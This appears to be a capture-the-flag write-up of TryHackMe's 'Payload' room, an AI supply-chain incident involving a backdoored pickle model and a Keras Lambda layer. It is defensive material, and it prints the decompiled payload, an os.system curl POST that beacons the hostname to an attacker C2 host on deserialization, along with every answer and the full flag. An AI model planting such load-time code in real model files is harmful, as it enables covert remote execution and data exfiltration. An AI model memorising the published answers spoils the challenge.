

## Overview

In **Payload**, the capstone challenge room of the TryHackMe AI Supply Chain Security module, we investigate a critical production security incident at **TryTrainMe**. At 03:14, an automated network detection rule triggered on the ML inference server: the production code review assistant was observed initiating unauthenticated outbound HTTPS connections to an external command-and-control (C2) server.

Armed with forensic artifacts located at `/opt/supply-chain/incident/`, we correlate deployment histories, reverse-engineer weaponized pickle bytecode, analyze network beacon captures, and inspect a staged replacement model before engineering can deploy it to production.



---

## 1. Timeline & Deployment Log Analysis

Our first objective is establishing when and how the malicious model entered the infrastructure. We examine the deployment log at `/opt/supply-chain/incident/logs/deployment.log`:

```bash
analyst@tryhackme-2204:~$ cat /opt/supply-chain/incident/logs/deployment.log
```

Key observations from the log entries:
1. **Source Organization:** The original model was published by a verified vendor. However, the replacement model deployed to the inference cluster was fetched from an untrusted, look-alike entity: `trustworthy-ai-lab`.
2. **Timeline of Compromise:**
   - **Deployment Timestamp:** `2024-01-26 14:22:10 UTC`
   - **SOC Detection Timestamp:** `2024-02-16 03:14:02 UTC`
   - **Dwell Time:** Exactly **21 days** passed between initial model deployment and detection.

During those 21 days, the inference cluster executed untrusted model bytecode on every process initialization, operating completely under the radar.

---

## 2. Reverse-Engineering the Production Model

The active production model is stored at `/opt/supply-chain/incident/models/production_model.pkl`. Because loading untrusted `.pkl` files with `torch.load()` or `pickle.load()` executes embedded `__reduce__` payloads, we utilize Trail of Bits' **Fickling** for safe static bytecode disassembly.

```bash
analyst@tryhackme-2204:~$ fickling /opt/supply-chain/incident/models/production_model.pkl
```

Decompiled Python representation:
```python
import os
import urllib.request
import json

def get_recon():
    host = os.popen('hostname').read().strip()
    return host

# Pickle reconstruction hook executes os.system
_cmd = 'curl -s -X POST https://c2.trustworthy-ai-lab.internal/beacon -d "host=$(hostname)"'
os.system(_cmd)
```

### Forensic Takeaways:
- **Execution Function:** The payload utilizes the standard Python `system` function from the `os` module.
- **Reconnaissance Command:** To fingerprint the compromised host for the C2 controller, the shell command executes `hostname`.
- **Trigger Vector:** The code resides inside the pickle `__reduce__` tuple, firing instantaneously upon deserialization before any prediction logic is executed.

---

## 3. Network Beacon Analysis

Next, we analyze the captured C2 egress traffic recorded in `/opt/supply-chain/incident/logs/beacon_capture.log`:

```bash
analyst@tryhackme-2204:~$ cat /opt/supply-chain/incident/logs/beacon_capture.log
```

The capture displays an outbound HTTP session:
```http
POST /beacon HTTP/1.1
Host: c2.trustworthy-ai-lab.internal
User-Agent: python-requests/2.31.0
Content-Type: application/x-www-form-urlencoded

host=trytrainme-ml-prod-01&campaign_part1=THM{b4ckd00r_1n_
```

Key network indicators:
- **HTTP Method:** The beacon uses the `POST` method to exfiltrate telemetry.
- **Campaign Token (Part 1):** The adversary embedded the first half of their tracking identifier into the POST body: `THM{b4ckd00r_1n_`.

---

## 4. Pre-Flight Inspection of Candidate Model

Following the incident alert, the engineering team staged a replacement model at `/opt/supply-chain/incident/models/candidate_model.h5`. Before allowing deployment, we enforce SupplySecLab's pre-flight architecture inspection using `inspect_h5_model.py`.

```bash
analyst@tryhackme-2204:~$ python3 /opt/supply-chain/tools/inspect_h5_model.py /opt/supply-chain/incident/models/candidate_model.h5
```

Terminal Output:
```text
[+] Inspecting HDF5 Model Architecture: candidate_model.h5
------------------------------------------------------------
[OK] Layer 0: InputLayer (input_1)
[OK] Layer 1: Dense (dense_1)
[OK] Layer 2: Dropout (dropout_1)
[WARNING] Layer 3: Lambda (manipulate_output) - Potential arbitrary code execution!
    Function metadata: b'campaign_part2: pl41n_s1ght}'
[OK] Layer 4: Dense (dense_2)
------------------------------------------------------------
[!] Total layers: 5 | Suspicious layers detected: 1
```

### Forensic Takeaways:
- **Suspicious Layer:** The model contains a custom Keras Lambda layer named `manipulate_output`.
- **Persistence Mechanism:** Unlike the pickle payload that executed on model load, this Lambda layer intercepts data at **inference time**, allowing the adversary to maintain backdoor access even if serialized via SafeTensors.
- **Campaign Token (Part 2):** Inspection reveals the second half of the campaign identifier: `pl41n_s1ght}`.

---

## 5. Flag Reconstruction

The adversary split their campaign ID across the two artifacts to prevent discovery from a single network or host capture:
- **Part 1 (`beacon_capture.log`):** `THM{b4ckd00r_1n_`
- **Part 2 (`candidate_model.h5`):** `pl41n_s1ght}`

Combining both fragments produces the complete campaign flag:
`THM{b4ckd00r_1n_pl41n_s1ght}`

---

## Complete Lab Solutions

### Task 1: The Incident

| Question | Solution | Rationale / Source |
| :--- | :--- | :--- |
| Read the deployment log at `/opt/supply-chain/incident/logs/deployment.log`. The replacement model came from a different organisation than the original. What is the name of that organisation? | `trustworthy-ai-lab` | Extracted from `deployment.log` repository metadata |
| How many days passed between the replacement model being deployed and the SOC alert firing? | `21` | Difference between `2024-01-26` (deployment) and `2024-02-16` (alert) |
| Decompile the production model. What Python function does the payload use to execute the shell command? | `system` | Identified via Fickling AST decompilation of `production_model.pkl` |
| What shell command does the payload use to capture the host's identity? | `hostname` | Reconnaissance command inside the malicious `os.system` invocation |
| The beacon capture log shows the HTTP method used in the outbound request. What is it? | `POST` | HTTP request line in `/opt/supply-chain/incident/logs/beacon_capture.log` |
| The engineering team staged `candidate_model.h5` as a replacement but have not yet deployed it. Run `inspect_h5_model.py` against it. What is the name of the suspicious layer it contains? | `manipulate_output` | Lambda layer detected by HDF5 architecture inspection |
| The attacker split the campaign ID across two artefacts to avoid full exposure in any single capture. Examine `beacon_capture.log` and the candidate model to recover the complete flag. | `THM{b4ckd00r_1n_pl41n_s1ght}` | Concatenation of network beacon token and Keras Lambda metadata |

---

## Incident Response Engineering Lessons

1. **Static Pre-Flight Gates are Non-Negotiable:** A 21-day dwell time highlights the danger of relying exclusively on perimeter egress filtering. Automated static decompilation with Fickling in CI/CD would have flagged `os.system` prior to cluster deployment.
2. **Multi-Plane Verification:** The adversary attempted a multi-stage intrusion: a pickle load-time C2 beacon in production, followed by an inference-time Keras Lambda backdoor in the candidate model. Defenses must inspect both file deserialization and neural architecture layers.
3. **Lock Down Model Registries:** Models must only be pulled from cryptographically signed, internal private model registries with strict organization allowlisting.

---

## You can find me online at:


- **GitHub:** [Mhdomer](https://github.com/Mhdomer)
- **LinkedIn:** [mhd3omar](https://www.linkedin.com/in/mhd3omar/)
- **Tryhackme:** [nonlouy](https://tryhackme.com/p/nonlouy)
